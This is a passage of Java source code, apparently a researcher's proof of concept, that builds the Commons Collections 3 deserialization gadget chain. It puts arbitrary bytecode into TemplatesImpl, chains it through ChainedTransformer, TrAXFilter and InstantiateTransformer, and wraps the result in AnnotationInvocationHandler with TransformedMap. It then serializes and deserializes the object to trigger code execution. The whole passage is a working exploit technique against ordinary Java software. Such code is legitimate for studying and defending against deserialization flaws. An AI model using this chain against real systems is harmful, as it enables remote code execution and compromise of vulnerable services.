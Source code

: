 ```java
        byte[][] targetByteCode = new byte[][]{shellByteCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class _class = obj.getClass();
        Field _name = _class.getDeclaredField("_name");
        Field _bytecode = _class.getDeclaredField("_bytecodes");
        Field _tfactory = _class.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetByteCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map map = new HashMap();
        map.put("value", "d1no");
        Map map1 = TransformedMap.decorate(map, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object object = constructor.newInstance(Retention.class, map1);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(object);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC3();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
